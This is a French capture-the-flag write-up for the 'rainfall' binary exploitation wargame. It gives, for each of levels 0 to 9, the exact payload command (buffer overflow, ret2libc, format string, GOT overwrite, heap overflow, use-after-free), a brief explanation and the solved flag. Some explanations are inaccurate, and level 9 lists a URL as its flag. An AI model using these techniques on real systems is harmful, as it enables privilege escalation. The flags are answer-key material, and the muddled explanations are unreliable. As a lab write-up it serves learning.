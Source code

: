 # rainfall
## Level 0

**Exploit**: Buffer Overflow simple  
**Commande**: `./level0 423`  
**Explication**: Dans ce cas, l'exploit consiste à profiter d'une vulnérabilité de débordement de tampon. En passant l'argument 423 au programme level0, nous dépassons la taille du tampon prévu, ce qui nous permet d'écraser des données adjacentes en mémoire, y compris l'adresse du pointeur de retour. Cela nous permet de contrôler le flux d'exécution et d'obtenir le contenu du fichier .pass de l'utilisateur level1.
**Flag**: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

**Sources**:
- Aucune

---

## Level 1

**Exploit**: Buffer Overflow avec redirection de flux d'exécution  
**Commande**: `python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit2; cat /tmp/exploit - | ./level1`  
**Explication**: Dans cet exploit, nous avons dépassé la taille du tampon prévu en imprimant 76 caractères "a", suivis de l'adresse 0x08 04 84 44, qui est l'adresse de la fonction run. Cette adresse sera utilisée comme nouvelle adresse de retour, ce qui nous permettra de rediriger l'exécution vers la fonction run.
**Flag**: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

**Sources**:

- https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
- https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process
- https://stackoverflow.com/questions/44469372/exploiting-buffer-overflow-using-gets-in-a-simple-c-program
- https://www.kali-linux.fr/hacking/overflows-passons-a-la-pratique

---

## Level 2

**Exploit**: Return-to-libc (ret2libc)  
**Commande**: `python -c 'print "a" * 80 + "\x3e\x85\x04\x08"  + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"' > /tmp/exploit3`  
**Explication**: Dans cet exploit, nous utilisons la technique ret2libc pour contourner les protections de sécurité. Nous utilisons les adresses des fonctions system, exit et /bin/sh de la bibliothèque libc pour exécuter une coquille système avec les privilèges de l'utilisateur.
**Flag** : 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

**Sources**:

- https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc
- https://infosecwriteups.com/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
- http://wikisecu.fr/doku.php?id=appsysteme:ret2libc

---

## Level 3

**Exploit**: Attaque de chaîne de format  
**Commande**: `python -c 'print "\x8c\x98\x04\x08" + "%60c" + "%4$n"' > /tmp/exploit4; cat /tmp/exploit4 - | ./level3`  
**Explication**: L'exploit ici repose sur une vulnérabilité de chaîne de format. Nous utilisons la spécification %4$n pour écrire le nombre de caractères déjà imprimés dans la pile à l'adresse mémoire pointée par le quatrième argument sur la pile (qui est l'adresse de retour). Cela nous permet de contrôler le flux d'exécution.
**Flag** : b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

**Sources**:

- https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf
- https://axcheron.github.io/exploit-101-format-strings/
- https://owasp.org/www-community/attacks/Format_string_attack

---

## Level 4

**Exploit**: Format String avec écriture arbitraire  
**Commande**: `python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' > /tmp/exploit4`  
**Explication**: Dans cet exploit, nous utilisons la vulnérabilité de chaîne de format pour écrire une valeur arbitraire dans la mémoire. Nous écrasons l'adresse de retour avec l'adresse de la fonction info pour afficher le contenu de la mémoire.
**Flag** : 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

**Sources**:

- https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf
- https://axcheron.github.io/exploit-101-format-strings/
- https://owasp.org/www-community/attacks/Format_string_attack

...

## Level 5

**Exploit**: GOT Overwrite
**Etapes**: 
- info function : obtenir les adresses des fonctions 
-  objdump -R level5 ===> adresses functions libc
-  objdump -t level5 | grep o ==> adresse fonctions "o"
- o : 080484a4 
- exit : 08049838
**Commande**: `python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"' > /tmp/exploit5`  
**Explication**: Dans cet exploit, nous écrasons une entrée dans la table GOT pour rediriger l'exécution vers notre propre code. Nous écrasons l'adresse de la fonction o dans la table GOT avec l'adresse de la fonction system.
**Flag** : d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

**Sources**:
- Aucune
---

## Level 6

**Exploit**: Buffer Overflow avec shellcode  
**Commande**: `$(python -c 'print "a" * 72 + "\x54\x84\x04\x08"')`  
**Explication**: Ici, nous exploitons une vulnérabilité de débordement de tampon pour écraser l'adresse de retour avec l'adresse de la fonction m(). Ensuite, nous exécutons un shellcode pour obtenir un shell interactif.
**Flag** : f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

**Sources**:
- Aucune
---

## Level 7

**Exploit**: Heap Overflow  
**Commande**: `"$(python -c "print 'AAAABBBBCCCCDDDDEEEE\x28\x99\x04\x08'")" $(python -c "print '\xf4\x84\x04\x08'")`  
**Explication**: Dans cet exploit, nous exploitons une vulnérabilité de débordement du tas. Nous écrasons les métadonnées du tas pour rediriger l'exécution vers la fonction m(). Cela nous permet d'exécuter du code arbitraire.
**Flag** : 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

**Sources**:

- https://security.stackexchange.com/questions/258891/heap-overflow-strcpy-on-x86-64-64bit
- https://www.youtube.com/watch?v=TfJrU95q1J4

---

## Level 8

**Exploit**: Use-After-Free  
**Commande**: `auth a; reset; service; service; service; login`  
**Explication**: Dans cet exploit, nous exploitons une vulnérabilité Use-After-Free. Nous libérons un objet, puis nous l'utilisons à nouveau pour exécuter un shell interactif. Cela se produit car l'objet libéré n'est pas correctement désalloué.
**Flag** : c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a

**Sources**:

- https://beta.hackndo.com/use-after-free/
- https://www.youtube.com/watch?v=ZHghwsTRyzQ

---

## Level 9

**Exploit**: Buffer Overflow avec shellcode  
**Commande**: `$(python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWWXXXXYYYYZZZZAAA' + '\x60\x60\xd8\xb7' + '\xe0\x9b\xd7\xb7' + '\xf4\x84\x04\x08' + '\x58\x7c\xea\xb7' ")`  
**Explication**: Comme dans les exploits précédents, nous exploitons une vulnérabilité de débordement de tampon pour écraser l'adresse de retour et exécuter un shell interactif.
**Flag** : https://shell-storm.org/shellcode/files/shellcode-827.html

**Sources**:

- https://shell-storm.org/shellcode/files/shellcode-827.html

---

Ce write-up a été préparé avec soin par [HarounKr].

**Disclaimer**: Ces exploits ont été conçus à des fins éducatives et d'apprentissage. Ne les utilisez pas à des fins malveillantes.
